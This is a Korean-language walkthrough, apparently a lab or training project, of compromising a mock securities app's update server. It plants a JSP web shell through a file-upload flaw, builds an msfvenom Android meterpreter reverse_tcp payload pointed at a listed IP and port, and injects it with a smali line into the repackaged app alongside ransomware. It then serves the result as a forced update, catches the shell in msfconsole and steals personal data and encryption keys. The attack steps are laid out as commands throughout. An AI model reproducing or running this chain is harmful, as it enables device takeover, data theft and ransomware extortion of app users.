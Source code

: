 # 업데이트를 통해 안드로이드 랜섬웨어 설치 유도

## 사용 언어 및 도구

- ![Python](https://img.shields.io/badge/python-3.8%2B-blue)
- ![JavaScript](https://img.shields.io/badge/javascript-ES6%2B-yellow)
- ![jadx](https://img.shields.io/badge/jadx-v1.5-blue)
- ![Frida](https://img.shields.io/badge/frida-15.1.16-green)
- ![Java](https://img.shields.io/badge/java-17.0.11-orange)

### 1. 파일 업로드 취약점 확인

  - 확장자, 용량 필터링 부제를 확인

![](https://velog.velcdn.com/images/wearetheone/post/a80f0c86-ef56-4b67-9cc3-acfe17292bbf/image.png)

- WebShell.jsp 업로드

![](https://velog.velcdn.com/images/wearetheone/post/9c012754-f1da-4208-b555-bb8817b8c1dc/image.png)

  
### 2. Web Shell 실행

- Burp Suite에서 업로드 URL 복사

![](https://velog.velcdn.com/images/wearetheone/post/68f2e940-58f1-4785-9e2d-2c06cebd6a6e/image.png)

- 해당 URL로 Web Shell 실행

![](https://velog.velcdn.com/images/wearetheone/post/e7a86676-d852-4d6b-b794-fb8b6aaa0acf/image.png)


 - 기존 update.apk 삭제
 
 ```bash
 rm -f /home/ubuntu/cloud/backend/demo/build/libs/update.apk
 ```
 
 ![](https://velog.velcdn.com/images/wearetheone/post/e5331d6c-56f9-4609-976a-fb33c9959f55/image.png)

- 악성 apk 업로드

![](https://velog.velcdn.com/images/wearetheone/post/9cfec08d-58da-4610-8834-4ddb7469ec23/image.png)

- 백엔드 코드에서 최신 버전을 변경하여 업데이트를 유도

![](https://velog.velcdn.com/images/wearetheone/post/7a0b967c-80cc-40b1-869e-a222e301f14d/image.png)

 - 백엔드 코드를 가져온 후 빌드, 수정된 jar 파일 업로드
 
 ![](https://velog.velcdn.com/images/wearetheone/post/cfbd561f-d741-492c-8aaf-cbef07be492b/image.png)

- jar파일 실행을 위해 restart.sh 업로드
 
![](https://velog.velcdn.com/images/wearetheone/post/a40de25d-71f3-4092-a4b4-230aea25e2b8/image.png)


-  서버 재실행

```bash
mv src/main/webapp/uploads/demo-0.0.2-SNAPSHOT.jar
```

![](https://velog.velcdn.com/images/wearetheone/post/1ccbd993-2d06-4346-8684-e5b9bb7db085/image.png)

```bash
sh restart3.sh
```

### 3. 악성 모바일 애플리케이션A 제작
- 무명증권 모바일 애플리케이션을 jadx 프로그램으로 열기
- 무명증권 모바일 애플리케이션 안에 주요 기능을 담당하는 3개의 Java 코드 발견

![](https://velog.velcdn.com/images/wearetheone/post/b88397a1-555a-4680-a9b3-b5547b746d85/image.png)

- RootFridaCheckActivity 부분에 모바일 애플리케이션 업데이트 기능 확인

![](https://velog.velcdn.com/images/wearetheone/post/aba16a4a-9600-4158-b580-f2fe0319d9d4/image.png)

- Reverse Shell 기능이 있는 악성 모바일 애플리케이션 제작

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=175.120.35.228 LPORT=64444 AndroidMeterpreterDebug=true AndroidWakelock=true -o reverse.apk
```

![](https://velog.velcdn.com/images/wearetheone/post/1294282e-80ac-44a8-b6e8-1bc1b452b213/image.png)


### 4. 악성 모바일 애플리케이션B 제작 및 A랑 합치기

- 기존 모바일 애플리케이션에 랜섬웨어 기능을 추가하여 새로 모바일 애플리케이션 제작
- 기능을 만들때 id값, 비밀키, iv값을 받기 위해 공격자의 칼리 리눅스 아파치 서버 주소 첨부

![](https://velog.velcdn.com/images/wearetheone/post/734b20e8-97c8-42b6-96ae-b886893faa0f/image.png)

- 랜섬웨어 기능이 있는 무명증권 모바일 애플리케이션과 Reverse Shell 모바일 애플리케이션을 합치기

   - ApkTool을 사용하여 두 모바일 애플리케이션을 디컴파일
   
```bash
ApkTool d -f -o 파일이름 파일이름.apk
```

![](https://velog.velcdn.com/images/wearetheone/post/88328d53-688f-41e0-a48e-62ac5a5da21d/image.png)


- 악성 페이로드를 디컴파일된 무명증권 디렉토리에 복사

```bash
cp -r 악성파일이름/smali/com/metasploit 정상파일이름/smali/com
```

![](https://velog.velcdn.com/images/wearetheone/post/deb284d8-1c1c-46a9-8eb0-ddadb8774b62/image.png)


- 무명증권 모바일 애플리케이션 안에 권한 변경
   - 권한을 변경하려는 애플리케이션의 AndroidManifest.xml 파일 수정

![](https://velog.velcdn.com/images/wearetheone/post/1176e3e4-c6e1-4ae5-b546-a7f9dfb22289/image.png)

- 휴대폰 제어를 하기 위한 권한 추가

![](https://velog.velcdn.com/images/wearetheone/post/9716b605-6479-425a-8e2a-bb2dd163dd76/image.png)

- 해당 모바일 애플리케이션이 실행될 때 악성 페이로드가 동작하여 Reverse Shell이 연결되도록 설정

    - ①	MainActivity.smali 파일에 아래 코드 삽입

```bash
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V 
```

![](https://velog.velcdn.com/images/wearetheone/post/5dd2a845-c040-4c81-aebe-f660b65f6121/image.png)


- 랜섬웨어 기능과 Reverse Shell 기능이 합쳐진 무명증권 모바일 애플리케이션 리패키징
   - ApkTool의 b 옵션을 사용해서 리패키징
   
![](https://velog.velcdn.com/images/wearetheone/post/61cb88fa-7944-4aad-a754-b6c4ac397571/image.png)


- 리패키징 후 생성된 애플리케이션 확인

![](https://velog.velcdn.com/images/wearetheone/post/3986e737-7300-4a3b-b3fc-25ed6ece79ef/image.png)


- 공격자가 만든 서명키로 서명

   - 서명키 만들기
![](https://velog.velcdn.com/images/wearetheone/post/28f075ac-77fd-48df-b908-ab9b6dc94383/image.png)

   - 공격자 키로 서명하기	

![](https://velog.velcdn.com/images/wearetheone/post/b73c2938-b96a-4844-b3ff-b993138a18e2/image.png)


### 5. 악성 모바일 애플리케이션 업로드

- 아래 명령어로 기존 모바일 애플리케이션 업데이트 파일 삭제

```bash
rm -f /home/ubuntu/cloud/backend/demo/build/libs/update.apk 
```

![](https://velog.velcdn.com/images/wearetheone/post/0ba61bff-c38a-446a-9bb3-0c7500b60a4e/image.png)

- 공격자가 만든 악성 모바일 애플리케이션 이름을 update.apk로 변경 후 업로드

![](https://velog.velcdn.com/images/wearetheone/post/31313ddc-df9c-4a01-8b1f-eb3f8a6f4f0a/image.png)


- src/main/webapp/uploads 경로에 업로드한 파일 위치 확인

![](https://velog.velcdn.com/images/wearetheone/post/f29f5025-687d-4d40-947a-e3102e5552f8/image.png)


- 공격자가 올린 update.apk을 기존 모바일 애플리케이션 업데이트 폴더로 이동

```bash
mv src/main/webapp/uploads/update.apk /home/ubuntu/cloud/backend/demo/build/libs/
```

![](https://velog.velcdn.com/images/wearetheone/post/89ac0382-626a-4ed3-83f6-0864feabd82a/image.png)

- 공격자가 올린 악성 모바일 애플리케이션으로 변경

![](https://velog.velcdn.com/images/wearetheone/post/03b22587-cb7a-469b-a7d4-65d8ebd4bd76/image.png)


- 4.3.4	모바일 애플리케이션 업데이트 기능 수정

![](https://velog.velcdn.com/images/wearetheone/post/4a56d33c-e1e6-4478-924c-1f71f33fd809/image.png)


![](https://velog.velcdn.com/images/wearetheone/post/d9f8ef89-99cb-45f1-be60-b2a5eccefa79/image.png)


- 변경된 코드로 Build
   - build.gradle 파일에서 Build 버전을 0.0.2-SNAPSHOT로 수정

![](https://velog.velcdn.com/images/wearetheone/post/7b92fc27-8833-4e42-85de-300000ba5bf4/image.png)

- Jar 파일 빌드

```bash
./gradle build
```


![](https://velog.velcdn.com/images/wearetheone/post/0c1b9b7e-207e-4aa0-9f84-13b4fbf268b1/image.png)

- ③	jar 파일 빌드를 위한 restart.sh 파일 제작

```bash
#!/bin/bash
fuser -k 8080/tcp && nohup java -jar /home/ubuntu/cloud/backend/demo/build/libs/demo-0.0.2-SNAPSHOT.jar > nohup.log 2>&1 &
```

위와 같이 실행

### 6. 사용자 악성 모바일 애플리케이션 업데이트

![](https://velog.velcdn.com/images/wearetheone/post/f0554baf-88b6-48f7-bf8a-7f779560bbd9/image.png)

### 7. 공격자가 안드로이드 랜섬웨어 실행

- 사용자가 랜섬웨어 실행 대기

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 본인 와이파이
set lport 5555
show options
```

![](https://velog.velcdn.com/images/wearetheone/post/0542ab39-81cd-4d13-8387-02a3c8d41887/image.png)

- 사용자가 악성앱 실행

![](https://velog.velcdn.com/images/wearetheone/post/55225032-10d8-42ce-a6c5-4eae05c4c598/image.png)

- 개인 정보 탈취

![](https://velog.velcdn.com/images/wearetheone/post/21e7e336-b39c-46e4-a4cb-4a2acafe747c/image.png)

![](https://velog.velcdn.com/images/wearetheone/post/ed428ac5-8675-44a2-a5cf-3672f0ac237c/image.png)

- 공격자가 랜섬웨어 실행

```bash
am start --user 0 -n com.example.nonameappransomware/.EncryptActivity 
```

![](https://velog.velcdn.com/images/wearetheone/post/1e33f722-e7c9-4565-a1b0-e62869275185/image.png)


- 랜섬웨어가 실행되면 공격자에게 id, 비밀키값, iv값 전송

![](https://velog.velcdn.com/images/wearetheone/post/bae9268d-188a-4cda-8f47-8c58efbba1f2/image.png)



